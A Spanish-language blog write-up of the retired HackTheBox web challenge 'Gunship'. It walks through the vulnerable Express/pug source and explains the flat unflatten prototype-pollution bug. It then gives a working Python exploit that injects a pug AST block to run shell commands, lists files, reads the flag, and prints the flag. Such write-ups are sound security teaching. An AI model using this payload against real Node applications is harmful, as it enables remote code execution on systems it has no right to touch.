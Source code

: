 ```yaml
---
title: Gunship
date: 2022-03-11
categories: [Pentesting, HackTheBox]
excerpt: Realizando el CTF Gunship, aprendiendo nuevas cosas!
tags: [Python, Programación, Pentestin]
---
```


# Gunship
---

### Descripción
A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world... all the wooing in the world to make you feel more lonely... this ride ends here, with a tribute page of the British synthwave band called Gunship. 🎶

**Vulnerabilidad:** vulnerable a la contaminación de prototipos, método: AST Injection.

---- 

¡Hola a todos!, este es un reto que he realizado hace un tiempo de HTB, y aprovechando que fue retirado para subirlo y así ustedes aprendan algo nuevo con este tipo de retos, sin más que decir ¡Comencemos!

```js
const path              = require('path');
const express           = require('express');
const pug                = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the full name of an existing member.'
        });
    }
});

module.exports = router;
```

Revisando el código fuente que HTB nos deja ver lo primero que hice fue buscar lo que no entendía en el código y sabiendo que había hecho en ese entonces una rest API entendí más sobre como estaba construida este tipo de APIS con node, express, etc… Y me pareció raro ver pug y unflatten, y que `unflatten` era lo más usado en el código, así que me puse a buscar que su uso, el cual era: lo que hace `flatten` es devolver un objeto anidado con un nivel de profundidad, algo como esto, y `unflatten` hace que el método anterior sea reversible.
```js
var flatten = require('flat')

flatten({
    key1: {
        keyA: 'valueI'
    },
    key2: {
        keyB: 'valueII'
    },
    key3: { a: { b: { c: 2 } } }
})

// {
//   'key1.keyA': 'valueI',
//   'key2.keyB': 'valueII',
//   'key3.a.b.c': 2
// }
```

```js
var unflatten = require('flat').unflatten

unflatten({
    'three.levels.deep': 42,
    'three.levels': {
        nested: true
    }
})

// {
//     three: {
//         levels: {
//             deep: 42,
//             nested: true
//         }
//     }
// }
```

Y sabiendo como esta compuesta la app nos damos una idea que este objeto es enviado al servidor así que me propuse a buscar si habia alguna forma de explotar esto así que lo primero que se me vino a la mente es ver si unflatten en el pasado ha tenido alguna vulnerabilidad, y con un poco de Google encontramos un articulo de contaminación de prototipos donde estaba unflutten y pug. `(^^)`

**Articulo:** https://blog.p6.is/AST-Injection/

Leyendo un poco y analizando el código fuente de la app nos damos cuenta de que los exploit de unflutten se explotan mediante Handlbars.compile y en ninguna parte se usa el método pug, para los que están perdidos como yo lo estuve en este punto handlbars pre compila la plantilla que hay y la manda al cliente ejecutándose inmediatamente en el proceso convirtiendo la cadena en una función de la plantilla, en p6 explica mejor esto aparte de como explotarlo en nuestro caso lo que nos interesa es pug.compile que es lo mismo que handlbars.compile solamente que pug.compile esta enfocado para node.js

Ya sabiendo estos pequeños detalles pasemos a la acción con el exploit, recuerda que debemos cambiar el exploit de pug.compile de la web de p6 con la URL target o sea de ginshup, y atacando el punto principal, `/api/submit` teniendo en cuenta que nuestra en la carpeta de nuestra app sabemos la ruta de static gracias al código fuente `static/out` verificamos si nos deja aprovechar de alguna forma el RCE (Remote Code Execution Vulnerability) con por ejemplo `$(ls)`, para más detalle de lo que es RCE es una forma de ejecutar o inyectar comandos del sistema operativo donde se esté ejecutando la app, pero ¿Por qué `$(ls)`?, recuerda que no solamente existe este comando pues hay otras formas más dolorosas como `sleep` que nos permiten que el proceso se duerma en un unos segundos que le especifiquemos, pero volviendo a la pregunta, es más interesante de explicar por el tema de que se usa a lo que se llama `command substituion` que crea una subshell sin afectar la verdadera haciendo que nuestro comando sea sustituido por la salida estándar, ¿Curioso no?. Después de todo este pug va a compilar la plantilla verificando también que pasamos artist.name para que nos valide

**Exploit:**

```python
import requests

TARGET_URL = 'http://157.245.43.98:32676/'

# make pollution
response = requests.post(TARGET_URL + 'api/submit', json = {
    "artist.name": "Gingell",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`$(ls)`)"
    }
})
print(response.text)
```

**Archivo:**

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: Command failed: $(ls)<br>/bin/sh: flagJhQbu: not found<br> on line 1<br> &nbsp; &nbsp;at checkExecSyncError (child_process.js:621:11)<br> &nbsp; &nbsp;at Object.execSync (child_process.js:657:15)<br> &nbsp; &nbsp;at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), &lt;anonymous&gt;:13:63)<br> &nbsp; &nbsp;at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), &lt;anonymous&gt;:17:7)<br> &nbsp; &nbsp;at /app/routes/index.js:16:81<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/app/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /app/node_modules/express/lib/router/index.js:281:22</pre>
</body>
</html>
```

Luego de tener el nombre del archivo de la flag `flagJhQbu` solamente usamos cat para ver el archivo por dentro y nos mostraria la `flag` completa.

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: Command failed: $(cat flagJhQbu)<br>/bin/sh: HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}: not found<br> on line 1<br> &nbsp; &nbsp;at checkExecSyncError (child_process.js:621:11)<br> &nbsp; &nbsp;at Object.execSync (child_process.js:657:15)<br> &nbsp; &nbsp;at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), &lt;anonymous&gt;:13:63)<br> &nbsp; &nbsp;at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), &lt;anonymous&gt;:17:7)<br> &nbsp; &nbsp;at /app/routes/index.js:16:81<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/app/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/app/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /app/node_modules/express/lib/router/index.js:281:22</pre>
</body>
</html>
```

**Flag:** `HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}`

<center>Gracias por leer <3</center>